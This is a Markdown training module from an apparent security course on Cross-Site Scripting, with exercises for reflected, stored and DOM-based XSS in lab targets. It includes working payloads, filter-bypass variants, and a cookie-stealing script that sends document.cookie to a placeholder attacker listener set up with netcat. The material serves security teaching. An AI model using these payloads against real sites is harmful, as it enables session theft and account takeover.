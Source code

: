 ## 🕸️ Subtopic 3.5: Cross-Site Scripting (XSS)

**Goal:** Understand how Cross-Site Scripting (XSS) vulnerabilities allow attackers to inject malicious client-side scripts into web pages viewed by other users, covering Reflected, Stored, and DOM-based variants. *(Cert relevance: CompTIA Sec+, eJPT, OSCP)*

**Resources:**

* **OWASP Top 10:** [A03:2021-Injection](https://owasp.org/Top10/A03_2021-Injection/) (XSS falls under Injection now) & [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
* **PortSwigger Academy:** [Cross-site scripting (XSS) Labs](https://portswigger.net/web-security/cross-site-scripting)
* **XSS Payloads:** [PayloadBox XSS Payloads](https://github.com/payloadbox/xss-payload-list), [PortSwigger XSS Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
* **Tools:** Browser DevTools, Burp Suite / OWASP ZAP.
* **Test Environment:** OWASP Juice Shop, DVWA, `http://testphp.vulnweb.com/`, PortSwigger Academy Labs.

---

### 🔹 **Exercise 1: Finding Reflected XSS**

**Goal:** Identify Reflected XSS vulnerabilities where user input from a request (e.g., URL parameter, form field) is immediately embedded unsafely in the server's response HTML.

**Instructions:**

1.  In your test environment, identify input fields or URL parameters whose values are displayed back on the resulting page (e.g., a search term shown as "Results for: [search term]").
2.  Inject simple HTML tags like `<b>XSS</b>` or `<i>test</i>` into the parameter/field. Check the HTML source of the response page (using DevTools or Burp). Are the tags rendered as HTML or displayed as literal text (meaning they were likely sanitized/encoded)?
3.  If HTML injection works, try injecting a basic XSS payload: `<script>alert(document.domain)</script>`. Submit the request. Does an alert box pop up displaying the current domain?
4.  Try alternative basic payloads if the first fails (browsers/filters might block `alert`):
    * `<img src=x onerror=alert(1)>`
    * `<svg onload=alert(1)>`
    * `<iframe src="javascript:alert(1)">`
5.  Use Burp/ZAP Repeater to quickly test different payloads and inspect responses.
6.  **Challenge:** Find a reflected input where basic tags (`<b>`) work, but `<script>` tags are filtered or encoded. Can you find an event handler payload (like `<img src=x onerror=... >`) that bypasses the filter and executes?

---

### 🔹 **Exercise 2: Finding Stored XSS**

**Goal:** Identify Stored XSS vulnerabilities where user input containing malicious script is saved by the application (e.g., in a database) and later displayed to other users.

**Instructions:**

1.  In your test environment, identify features where user input is stored and displayed back later (e.g., user comments, profile descriptions, forum posts, product reviews).
2.  Submit input containing simple HTML tags (`<b>StoredTest</b>`) into these fields. View the page where the content is displayed. Is the HTML rendered correctly?
3.  If HTML injection works, try submitting a basic XSS payload: `<script>alert('Stored XSS: '+document.cookie)</script>`.
4.  Log out and log back in (if applicable), or view the content as another user (if possible), or simply revisit the page where the content is displayed. Does the script execute (e.g., does the alert pop up)?
5.  Examine the stored data (if you can access the database or view profile source) - is the raw script saved? Examine the HTML source where it's displayed - is the script present and not encoded?
6.  **Challenge:** If `<script>` tags are blocked, try injecting payloads using other tags and event handlers (e.g., `<img src=x onerror=alert(1)>`, `<a href="javascript:alert(1)">Click Me</a>`). Does the application filter these differently?

---

### 🔹 **Exercise 3: Basic XSS Payload - Cookie Theft**

**Goal:** Demonstrate the impact of XSS by crafting a payload to steal a user's session cookie.

**Instructions:**

1.  **Setup Listener:** On a machine you control (e.g., your attacker machine with a public IP or using ngrok), start a simple HTTP listener using netcat: `nc -lvp 80` (or another port like 8000).
2.  **Craft Payload:** Create the XSS payload (replace `<YourListenerIP>` with the actual IP/domain of your listener):
    `<script>document.location='http://<YourListenerIP>/?c='+document.cookie</script>`
    (For HTTPS sites, the listener might also need to handle HTTPS or use a different exfiltration method).
3.  **Inject:** Find an XSS vulnerability (Reflected or Stored) in your test application. Inject this payload.
4.  **Trigger:** Simulate a victim user Browse the page containing the injected payload (e.g., visit the reflected XSS URL, view the comment with the stored XSS).
5.  **Observe Listener:** Check your `nc` listener. Did it receive an incoming HTTP request? Examine the request path. Does it contain `/` followed by the victim's cookie(s)?
6.  **Challenge:** Why might this basic cookie theft not work if the target session cookie has the `HttpOnly` flag set? How might an attacker achieve session hijacking even if `HttpOnly` is set (research other techniques like stealing CSRF tokens or performing actions via XHR)?

---

### 🔹 **Exercise 4: Introduction to DOM-Based XSS**

**Goal:** Understand how XSS can occur purely client-side when JavaScript unsafely handles user input (often from URLs) and writes it to the DOM.

**Instructions:**

1.  Find an application feature where client-side JavaScript reads data from the URL (e.g., the fragment `#`, or query parameters via `window.location.search`) and uses it to dynamically modify the page content (e.g., using `innerHTML`, `document.write`, or passing it to `eval`). PortSwigger Academy labs are excellent for this.
2.  Use Browser DevTools (Debugger/Sources) to step through the relevant client-side JavaScript code. Observe where the input is read (`source`) and where it is written to the DOM (`sink`).
3.  Analyze if the data is sanitized or encoded *before* being written to the sink.
4.  Try crafting input in the URL (e.g., `http://vulnerable.site/page#<img src=x onerror=alert(1)>`) that will be processed by the vulnerable JavaScript sink and cause script execution when the page loads or interacts.
5.  Use the DevTools Console to look for errors or confirm execution. Unlike Reflected/Stored XSS, the payload might not appear directly in the initial HTML source from the server but gets executed later by client-side scripts.
6.  **Challenge:** Research common JavaScript functions that are dangerous "sinks" if they process untrusted user input (e.g., `innerHTML`, `document.write`, `eval`, `setTimeout` with string arguments).

---

### 🧪 **Lab: PortSwigger Academy XSS Labs**

**Goal:** Practice identifying and exploiting various types of XSS vulnerabilities in realistic scenarios.

**Instructions:**

* Navigate to the [PortSwigger Web Security Academy's XSS section](https://portswigger.net/web-security/cross-site-scripting).
* Complete the following labs (or similar):
    * "Reflected XSS into HTML context with nothing encoded"
    * "Stored XSS into HTML context with nothing encoded"
    * "DOM XSS in `document.write` sink using source `location.search`"
    * (Optional Challenge) "Reflected XSS into attribute with angle brackets HTML encoded" (Requires bypassing filters)

---